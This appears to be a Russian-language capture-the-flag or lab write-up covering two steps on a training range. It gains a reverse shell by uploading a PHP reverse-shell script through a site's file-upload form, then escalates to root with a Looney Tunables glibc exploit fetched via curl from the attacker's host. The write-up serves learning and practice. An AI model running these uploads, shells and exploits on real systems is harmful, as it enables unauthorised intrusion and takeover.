 ```yaml
---
attack: file upload
lpe: ldd
---
```

#### подготовка 

используем команду и добавляем следующие записи  
`sudo nano /etc/hosts`

```
10.124.1.231   aircraft.edu.stf
10.124.1.232   calculator.edu.stf
10.124.1.233   library.edu.stf
10.124.1.234   wp.edu.stf
10.124.1.235   www.edu.stf
10.124.1.236   gallery.edu.stf
10.124.1.237   utils.edu.stf
10.124.1.238   shop.edu.stf
10.124.1.239   tokenizer.edu.stf
10.124.1.240   bind.edu.stf
10.124.1.241   smashmusic.edu.stf
10.124.1.242   test-webserver.edu.stf
10.124.1.253   vpn.edu.stf
```

### web-1-1
#### scout
 Переходим на страницу    http://library.edu.stf/
и видим сылку на либу(нижний правый угол ), переходим на нее
 ![[Pasted image 20240907102613.png]]
Переходим по этой кнопке и видим следующий интерфейс 
![[Pasted image 20240907103230.png]]

 Далее логичное предположение что авторы заданиях хотят чтобы мы провернули уязвимость с манипуляцией файлов. 
 
Так зная что  это за уязвимость я сразу загуглил (это файл стандартный файл что можно использовать в таких рода заданиях)
reverse shell php
https://github.com/pentestmonkey/php-reverse-shell
![[Pasted image 20240907103507.png]]

Почему php? потому что расширение в браузере показывает какие есть языки на веб сервере
![[1_IFNZ4MZsfGWT14927hjLwg.png]]

Далее копируем файл любым удобным способом 
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Открыв его после скачивания, ознакомимся с файлом фото1
Видим что нужно поменять значения  данные значения на свой порт и айпи , так чтобы узнать какой именно у нас Ip нам нужно использовать команду `ip a ` фото 2-3


![[Pasted image 20240907103711.png]]
фото1


![[Pasted image 20240907103901.png]]
И смотрим значение tun0 Так как нам нужно значение нашего айпи в ВПН, это важно 
![[Pasted image 20240907103929.png]]
фото 2-3

В значении порт указывает тот порт что мы будем слушать через команду `rlwrap nc -lnvp YOUR PORT  `   или nc -lnvp YOUR PORT
#### Attack
send to repeater
![[Pasted image 20240907104505.png]]

Удаляем данные картники , (можно и подругому делать но я лично так)

![[Pasted image 20240907104715.png]]



![[Pasted image 20240907105000.png]]

Смотрим на вебе получилось ли закинуть файл или т.п 

Далее нужно узнать как вызвать , для этого я вызвал  картнику и посмотрел ее адрес на сайте

![[Pasted image 20240907105541.png]]
![[Pasted image 20240907105713.png]]
Узнав адрес обычный адрес картинки, мы просто меняем адрес этой картники на название нашего revershell , как видно ниже и тем самым мы запускаем данные скипт и он подключается к нам
http://library.edu.stf/wp-content/shell33.php

![[Pasted image 20240907110550.png]]

https://github.com/rapid7/metasploit-framework/issues/18429

#### web-1-2 Lpe
Looney Tunables poc github
Проверка версии glibc
Выполните команду для получения версии glibc:
>ldd --version

Вывод будет примерно таким:
```
 ldd (Ubuntu GLIBC 2.35-0ubuntu3.4) 2.35
Copyright (C) 2022 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Written by Roland McGrath and Ulrich Drepper.
```
Проверьте, находится ли версия glibc в диапазоне от 2.34 до 2.39. Если да, то ваш сервер уязвим.
Вроде эта https://github.com/hadrian3689/looney-tunables-CVE-2023-49111

`python3 -m http.server 4646`

```
$ curl -O http://10.127.244.55:4646/exp.c

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3814  100  3814    0     0  88473      0 --:--:-- --:--:-- --:--:-- 90809
$ $ curl -O http://10.127.244.55:4646/libc.py
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   670  100   670    0     0  15509      0 --:--:-- --:--:-- --:--:-- 33500
$ 
$ 
$ ls
exp.c
libc.py
$ chmod +x *

$ python3 libc.py
$ ls
"
exp.c
libc.py
$ gcc exp.c -o exp
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ls
"
exp
exp.c
libc.py
$ ./exp
id
uid=0(root) gid=33(www-data) groups=33(www-data)


```

 